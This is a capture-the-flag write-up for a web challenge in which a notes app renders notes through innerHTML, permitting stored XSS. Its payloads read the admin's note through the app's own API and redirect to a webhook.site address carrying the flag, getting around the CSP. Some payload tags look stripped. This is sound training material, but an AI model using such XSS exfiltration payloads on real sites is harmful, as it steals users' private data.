





# [Web] Take Note of This

## Description

After getting three quotes and totally not picking the lowest, we found that the application delivered to us has some...critical flaws. However, we were assured that there is no way for a malicious actor to read or exfiltrate the flag that the admin stored in a note.

In other completely unrelated news, come try out our application! For a short time, you can share your amazing notes with the admin.



## Walkthrough

Seems like we are able to add "Notes" which can then be "shared" to an admin. 🤔 Immediately we think of client-side attacks such as XSS or CSRF.

Viewing the HTML source, we see that the [source code](files/takenote-main.js) was available at `/js/main.js` and this is how each note is loaded:

```js
function loadNote() {
  const noteId = /^\/note\/([0-9]+)$/.exec(document.location.pathname)[1];
  req(`/api/note/${noteId}`, "GET").then((data) => {
    if (data.success) {
      document.querySelector("#note-id").innerHTML = noteId;
      document.querySelector("#note").innerHTML = data.note;
    }
  });
}

function req(uri, method, data) {
  return fetch(uri, {
    method,
    credentials: "same-origin",
    cache: "no-cache",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify(data),
  })
    .then((res) => res.json())
    .then((data) => {
      if (!data.success && data.message === "Unauthorized") {
        document.location.pathname = "/login";
        return;
      }

      return data;
    });
}
```

Seems like there is no sanitization in this application, let's verify that the note form is vulnerable to XSS:

```html

```



> We use `` tag because the underlying source uses `innerHTML` to set the HTML content, so we cannot simply use `<script>` tags to run JS.

Since it is possible to carry out XSS, let us craft a client-side attack payload which will let us session ride on the admin's session to view their first note (index 0).

Looking at the source code above, we see that the end-point to reach to read notes is at: `/api/note/{noteId}`.

Let's now upgrade our XSS PoC to fetch our note 1's content, leveraging on the `req()` from the source above:

```html
 {flag = data.note; alert(flag)});">
```



Great, now we can think about how to exfiltrate the admin's note 0 data... But we notice that the application has CSP policy which prevents us from simply making a XHR request out to a domain we control:

```
Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self' 'unsafe-inline'
```



This CSP restricts us from making any outbound requests since `connect-src` is not specified and `default-src` is defined as `self`.

Well, another way to do this is to simply redirect the user to our controlled domain:

```js
window.location.replace('our-controlled-domain');
```

We will also use webhook.site as our proxy. Now, our final payload will look like:

```html
 {flag = data.note; window.location.replace('https://webhook.site/606b74f7-2336-4099-9ec0-7ffcaa5fa4d7/?flag='.concat(flag));});">
```

Which will send a `GET` request to our proxy, containing the flag as a HTTP parameter. Let's click on the `share` button (or manually send a `POST` request to `/api/share/${noteId}`) and wait for the payload to trigger:



Finally, we obtain the flag: `CTFSG{g3nEr1c_aPp}`
